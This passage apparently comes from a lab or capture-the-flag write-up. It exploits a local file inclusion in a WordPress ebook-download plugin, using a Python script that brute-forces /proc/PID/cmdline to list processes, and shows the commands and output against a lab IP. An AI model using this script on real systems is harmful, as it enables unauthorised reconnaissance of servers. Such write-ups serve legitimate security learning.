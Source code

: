   ```bash
  ```

We don't seem to find any potential vulnerability that will allow us to obtain RCE on the machine. In this case, we can use LFI to perform enumeration of the system processes and how they were started. From this [source](https://penturalabs.wordpress.com/2010/04/01/process-command-line-enumeration-using-lfi/) we discover that by bruteforcing the `/proc/$PID/cmdline` file, we can enumerate the processes and their command line arguments:
```python
import argparse
import requests

args = argparse.ArgumentParser()
args.add_argument("-u", "--url", help="URL of the target", required=True)
args.add_argument("-n", "--numProcs", help="Number of processes to check", default=100, type=int)
args.add_argument("--hh", help="Hide files with length less than this", default=0, type=int)
args = args.parse_args()

for i in range(args.numProcs):
    r = requests.get(args.url + "/proc/%d/cmdline" % i)
    if r.status_code == 200:
        cmdline = r.text.strip()
        if len(cmdline) > args.hh or args.hh == 0:
            print("[+] PID: {} Length:{}".format(i, len(cmdline)))
            print("\tcontent:{}".format(cmdline))
    print("Tried {} out of {}".format(i, args.numProcs),end="\r")

```
With the previous script, we can enumerate for example the ten first processes and see how the react to the script:
```bash
❯ python3 Exploits/cmdline.py -u "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=" -n 10
[+] PID: 0 Length:76
	content:/proc/0/cmdline/proc/0/cmdline/proc/0/cmdline<script>window.close()</script>
[+] PID: 1 Length:120
	content:/proc/1/cmdline/proc/1/cmdline/proc/1/cmdline/sbin/initautoautomatic-ubiquitynoprompt<script>window.close()</script>
[+] PID: 2 Length:76
	content:/proc/2/cmdline/proc/2/cmdline/proc/2/cmdline<script>window.close()</script>
[+] PID: 3 Length:76
	content:/proc/3/cmdline/proc/3/cmdline/proc/3/cmdline<script>window.close()</script>
[+] PID: 4 Length:76
	content:/proc/4/cmdline/proc/4/cmdline/proc/4/cmdline<script>window.close()</script>
[+] PID: 5 Length:76
	content:/proc/5/cmdline/proc/5/cmdline/proc/5/cmdline<script>window.close()</script>
[+] PID: 6 Length:76
	content:/proc/6/cmdline/proc/6/cmdline/proc/6/cmdline<script>window.close()</script>
[+] PID: 7 Length:76
	content:/proc/7/cmdline/proc/7/cmdline/proc/7/cmdline<script>window.close()</script>
[+] PID: 8 Length:76
	content:/proc/8/cmdline/proc/8/cmdline/proc/8/cmdline<script>window.close()</script>
[+] PID: 9 Length:76
	content:/proc/9/cmdline/proc/9/cmdline/proc/9/cmdline<script>window.close()</script>
```
We can see that PID 1 contains the process `/sbin/initautoautomatic-ubiquitynoprompt`, which is the `/sbin/init` process. On the other hand, the rest of the processes return nothing.
Now if we add the param `--hh 76`, we can filter all the empty processes:
```bash
❯ python3 Exploits/cmdline.py -u "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=" -n 10 --hh 100
[+] PID: 1 Length:120
	content:/proc/1/cmdline/proc/1/cmdline/proc/1/cmdline/sbin/initautoautomatic-ubiquitynoprompt<script>window.close()</script>
```